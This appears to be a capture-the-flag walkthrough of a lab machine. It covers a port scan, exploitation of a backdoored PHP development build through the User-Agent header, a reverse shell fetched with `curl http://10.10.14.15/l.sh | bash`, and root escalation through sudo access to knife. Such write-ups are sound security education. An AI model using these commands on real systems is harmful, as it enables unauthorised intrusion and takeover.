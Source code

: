 # PORT SCAN
* **22** &#8594; SSH
* **80** &#8594; HTTP (APACHE 1.18)

<br><br><br>

# ENUMERATION & USER FLAG

The webpage is a simple page whit nothing to interract

![c1bd89fda2ece0c46be5de3d85e4715f.png](img/c1bd89fda2ece0c46be5de3d85e4715f.png)

I used **<u>nikto</u>** (dirbusting return nothing) to have more information about the technology used on the target

![166da7b5b5aaaef2b95a9ffcc889cba1.png](img/166da7b5b5aaaef2b95a9ffcc889cba1.png)

The PHP version seems very suspicious, especially the `dev` part, With a quick research I can discover that is vulbnerable to RCE modifying the **<u>User-Agent</u>** header. I tried to puing on my machine and we can accomplish the RCE correctly! 

![f687229637a573fd7b5ca5d5d1290bb0.png](img/f687229637a573fd7b5ca5d5d1290bb0.png)

![3ff2342eeb828bf50e922817e3fba72d.png](img/3ff2342eeb828bf50e922817e3fba72d.png)

> The story behind this backdoor is pretty interesting, at first the PHP development team tought about a compromise github account but during investigation everything point to the **<u>compromise of the git.php.net server</u>**. After that the whole team migrate from their own Git infrastructure to GitHub assuming that mantaining their own was an "unnecessary risk". cool to know the little story behind!

Now we can spawn a reverse shell abusing this backdoor with the command `curl http://10.10.14.15/l.sh | bash`

![1f77cf11724f49d3866a9c79168eb4fd.png](img/1f77cf11724f49d3866a9c79168eb4fd.png)

This is enough effort forthe user flag!

<br><br><br>

# PRIVILEGE ESCALATION

`sudo -l` is always a good place if you search something juicy! This time we have access as root at `/usr/bin/knife`.
[Knife](https://docs.chef.io/workstation/knife/) is a CLI which act as interface between chef-repo and [Chef Infra Server](https://docs.chef.io/server/) a HUB for configuration files (cookbooks) that can be applied to the nodes.
By the way we can execute commands with Knife through the `-E` flag in combination with `exec` subcommand, I found this at [GTFO](https://gtfobins.github.io/gtfobins/knife/)

![e336f5f5b93fe40092188f2e6a0bcfc4.png](img/e336f5f5b93fe40092188f2e6a0bcfc4.png)

![1a42e7bbc2a5c79fe75efb7151ee9969.png](img/1a42e7bbc2a5c79fe75efb7151ee9969.png)

We used the knife of the target against him!
